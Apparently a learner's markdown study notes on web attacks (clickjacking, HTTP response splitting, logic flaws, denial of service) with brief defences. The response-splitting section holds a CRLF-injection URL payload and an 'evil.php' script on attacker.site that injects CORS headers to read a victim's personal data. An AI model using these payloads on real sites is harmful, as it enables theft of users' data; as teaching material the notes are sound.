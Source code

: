 # ClickJacking
- Clickjacking is a technique, also known as User Interface (UI) redressing
- Technically, an attacker that wants to perform this attack crafts a malicious HTML page. This page can contain two overlapping layers, one malicious and the other the actual target of the click.
- malicous layer is what is visible to the user and contain innocuous(غير موذية) resource that the vivtim should feel secure clicking it
- the target layes is included via iframe is invisible to the victim and contain resource that will actuelly be clicked
   - this layer usually contain a button that will perform and operation that the victim would be unwilling to perform under normal circumstances
- That attack comprimises Four Steps
  - Feasability Study
  - Building Of a malicous web page
  - spreading the malicous page link
  - waiting for victim to click
- Clickjacking can be leveraged to perform a wide number of attacks such as:
	- forcing users to click on ads
	- performing any action that only requires clicking on a website
- clickjacking defenses
	- The Old School : Tries to avoid clickjacking by using JavaScript code
	- The Current School : HTTP response headers, Content Security Policy, Browser Frame-Breaker
		- It can have two different values: 
			- SAME ORIGIN : The document may be shown inside an iframe only if the container page (under the control of the attacker) and the contained document share the same origin.
			- DENY : The document may not be shown inside an iframe, regardless of the container’s origin.
			- X-Frame-Options
- Watch Video
# HTTP Response Splitting
- This type of Header Injection attack occurs when an attacker `sends` arbitrary data to the server and this data is `returned` as part of the HTTP response.
- Goal : Split the Response into two parts by means of special characters CRLF:
	-  CR (Carriage Return) – `[ \r ]`
	-  LF (Line Feed) – `[ \n ]`
- the use of these charachters is related to how the http protoclo determines the begining of the http response header ( affects all browsers )
- goal of the attacker is to craft http response by sending malicious input including the crafted headers and the special charachters
- A `Header injection` attack would add new Headers to the current HTTP Response block.
- but this attack not only injecting data into headers but alos creating a new http response block with new headers
- Example :
	- A web application puts User Input into one of the Response Headers. This header is Set-Cookie.
	- xss
	- `GET http://target.site/trackUrl.php?url=http://elsfoo.com%0d%0aHTTP/1. 1%20200%20OK%0d%0aContent%2dType:%20text/html%0d%0aContent%2dLengt h:%2039%0d%0a%0d%0a`	
- Bypass Same Origin Policy
- Example
	- Suppose a webpage named getPersonalData.php returns the personal data of the currently logged-in user and that the page is vulnerable to HTTP response splitting (in the trackingUrl parameter).
	- Attacker build a malicious page with this URL http://attacker.site/evil.php.
	- The following is the code of evil.php:
```
	<script>
function loadXMLDoc()
 {
 var xmlhttp;
 xmlhttp=new XMLHttpRequest();
 xmlhttp.withCredentials = true;
 xmlhttp.onreadystatechange=function()
 {
 if (xmlhttp.readyState==4 && xmlhttp.status==200)
 {
 document.getElementById("responseDiv").innerHTML=xmlhttp.responseText;
 }
 }
 
xmlhttp.open("GET","http://target.site/getPersonalData.php?trackingUrl=test%0d%0aAcces
s-Control-Allow-Origin:%20http://attacker.site%0d%0aAccess-Control-AllowCredentials:%20true",true);
 xmlhttp.send();
 }</script>
```

- Best Defensive
	- Filter the input data
	- PHP
	- `header(“Location: elsfoo.com”);`
	- PHP v5.1.4 both critical characters CR and LF have been denied within the function header
- read the examples again it wont take 10 min form the orignal PDF
# Logic Flow
- The best way to detect them is by analyzing the transaction chart of all the processes that the web application provides.
- read the logic flaw it wont take 2 minutes
- Best Defensive
	- Analyze all processes
	- process should be compliant to business rules
# Denial of Services
- Occurs when a system, designed to provide a certain service, stops providing that service to users, after receiving multiple malicious requests.
- This generally occurs because some server resource is overloaded (RAM, CPU, HD, bandwidth, etc.).
- attack the cia triad in the availabiltiy section
- DDoS attacks are the most difficult to prevent because their origin cannot be isolated
- Type 
	- DoS due to a huge number of REQUESTS
	- DoS due to GREEDY PAGES
 - in case of greedy page the attacker perform http request to each page available on the target site 
- Best Defensive
	- Detecting and blocking malicious requests
	- IP blacklisting

